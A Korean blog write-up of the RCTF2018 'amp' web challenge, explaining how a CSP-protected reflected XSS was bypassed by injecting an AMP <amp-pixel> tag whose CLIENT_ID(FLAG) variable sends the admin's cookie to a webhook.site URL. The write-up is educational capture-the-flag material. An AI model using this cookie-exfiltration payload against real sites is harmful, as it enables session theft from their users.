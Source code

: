 ```yaml
---
layout: post
title: RCTF2018 - amp Write up
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.  

비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.  

`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.  

`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.  

`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)  

그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.  

내가 간과한 점은, 바로 주석이었다.  

페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.  

`AMP 표준`은 아래 링크에서 확인할 수 있다.  

[AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.  

모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.  

그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.  

하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.  

`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.  

내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.  

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.  

`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.  

`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.  

그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.  

즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.  

그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.  

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.  

이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.  

즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.  

이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.  

`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.  

그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.  

해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.  

`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.  

이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  